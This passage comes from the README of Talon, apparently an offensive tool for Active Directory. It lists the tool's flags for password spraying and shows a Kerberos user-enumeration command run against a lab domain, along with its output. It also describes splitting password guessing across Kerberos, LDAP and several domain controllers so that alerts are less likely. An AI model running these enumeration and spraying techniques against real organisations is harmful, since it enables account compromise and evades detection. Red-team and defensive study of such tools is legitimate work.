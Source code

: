 ```
  -O string
    	File to append the results to
  -P string
    	Password to use
  -Passfile string
    	File containing the list of passwords
  -U string
    	Username to authenticate as
  -Userfile string
    	File containing the list of usernames
  -debug
    	Print debug statements
  -sleep float
    	Time inbetween attempts (default 0.5)
```


## Enumeration Mode
User enumeration mode can be executed with the `-E` flag which will send only Kerberos TGT pre-authentication request to the target KDC, however, this request is sent with a known bad or no longer supported encryption type.  Talon reviews the response by the KDC to determine if responds with a `KDC_ERR_ETYPE_NOSUPP`, which indicates if a user exists or `KDC_ERR_C_PRINCIPAL_UNKNOWN` if it does not. Talon can perform this type of enumeration against multiple domain controllers in an enterprise using the `-Hostfile` command to specify multiple domain controllers, or a single domain controller using `-H`. Using this technique will not cause any login failures so it will not lock out any of the users.

```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile Users -sleep 1 -E 

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.195 STARLABS.LOCAL\asmith:  = User Does Not Exist
[+]  172.16.144.185 STARLABS.LOCAL\ballen:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\bjohnson:  = User Does Not Exist
[-]  172.16.144.195 STARLABS.LOCAL\bwayne:  = User Does Not Exist
[+]  172.16.144.195 STARLABS.LOCAL\csnow:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\jtodd:  = User Does Not Exist
[+]  172.16.144.186 STARLABS.LOCAL\hwells:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\wwest:  = User's Account Locked
```

## Automated Password Guessing Mode
Talon utilize Kerberos and LDAP, which are both integrated into Active Directory for authentication. Talon can perform password guessing by alternating between the two services, allowing the password attack traffic to be split across two protocols. This splits the number of potential events generated, as a result reducing the chance of an alert. Talon takes this one step further, by distributing a password attack against multiple domain controllers in an enterprise using the `-Hostfile`, alternating between LDAP and Kerberos each time to create an additional layer of obscurity. A single domain controller can be provided using in the `-H` command if needed.
